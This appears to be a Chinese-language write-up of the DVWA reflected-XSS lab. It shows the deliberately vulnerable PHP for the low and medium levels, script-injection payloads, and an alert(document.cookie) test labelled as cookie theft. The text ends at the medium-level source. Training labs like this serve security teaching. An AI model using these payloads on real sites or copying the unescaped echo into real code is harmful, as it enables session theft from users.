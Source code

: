 # DVWA——Reflected XSS

## 级别：low

### Reflected XSS Source

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

### 分析

 可以看到，代码直接引用了name参数，并没有任何的过滤与检查，存在明显的XSS漏洞 。

 输入

```
<script>alert('xss')</script>
```

![MNT1gJ.png](https://s2.ax1x.com/2019/11/14/MNT1gJ.png)

查看源码可以发现代码被解释执行了

![MNTa4O.png](https://s2.ax1x.com/2019/11/14/MNTa4O.png)

### 获取cookie

输入

```
<script>alert(document.cookie)</script>
```

![MNTxxJ.png](https://s2.ax1x.com/2019/11/14/MNTxxJ.png)

## 级别：medium

### Reflected XSS Source

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

```